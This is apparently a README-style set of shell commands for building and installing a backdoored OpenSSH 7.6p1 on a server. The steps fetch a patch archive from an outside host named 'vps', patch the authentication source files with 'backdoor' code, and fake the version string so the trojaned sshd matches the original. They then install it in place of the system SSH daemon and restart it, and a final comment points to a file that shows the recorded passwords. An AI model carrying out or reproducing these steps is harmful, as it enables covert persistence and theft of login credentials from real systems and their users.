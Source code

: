 #### donwload package
wget https://ftp4.usa.openbsd.org/pub/OpenBSD/OpenSSH/portable/openssh-7.6p1.tar.gz   
wget https://vps/openssh-7.6p1-patch.tar.gz   

#copy backdoor files and patch   
cp openssh-7.6p1-patch/backdoor.* openssh-7.6p1   
cd openssh-7.6p1   

patch < backdoor.patch   

patching file auth.c   
patching file auth-pam.c   
patching file auth-passwd.c   
patching file sshconnect2.c   
patching file sshlogin.c   

#Check and remember version of original openssh   
ssh -V   
OpenSSH_7.6p1, OpenSSL 1.0.2k-fips  26 Jan 2017   

#Change version.h   
sed -i 's/#define SSH_VERSION\t".*"/#define SSH_VERSION\t"OpenSSH_7.6"/' version.h   
sed -i 's/#define SSH_PORTABLE\t".*"/#define SSH_PORTABLE\t"p1"/' version.h   

#Install required library   
yum -y install zlib-devel openssl-devel pam-devel   

#run configure   
#Notice: Confirm the location of the original openssh and configure files installed. It's important for command ./configure --prefix   
./configure --prefix=/usr --sysconfdir=/etc/ssh --with-pam --with-kerberos5   

#add backdoor.o to Makefile   
sed -i 's/ssh\.o/ssh\.o backdoor\.o/' Makefile   
sed -i 's/sshd\.o/sshd\.o backdoor\.o/' Makefile   

#compile and install   
make   
make install   

#restart sshd server   
sed -i 's/Type=.*/Type=fork/'  /lib/systemd/system/sshd.service #if huge when restart sshd   
systemctl daemon-reload #if need   
systemctl restart sshd   

#view.c show the password record   

